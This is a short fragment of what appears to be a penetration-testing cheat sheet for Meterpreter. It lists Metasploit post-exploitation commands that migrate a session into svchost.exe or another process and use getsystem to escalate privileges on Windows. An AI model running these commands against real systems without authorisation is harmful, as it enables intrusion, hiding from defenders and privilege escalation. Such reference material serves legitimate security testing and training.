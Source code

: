 **Meterpreter**
- (multi/handler) set AutoRunScript migrate -n svchost.exe
- run post/windows/manage/migrate
- ps
- migrate [pid]
- getsystem (W)
- getsystem -t [technique] (W)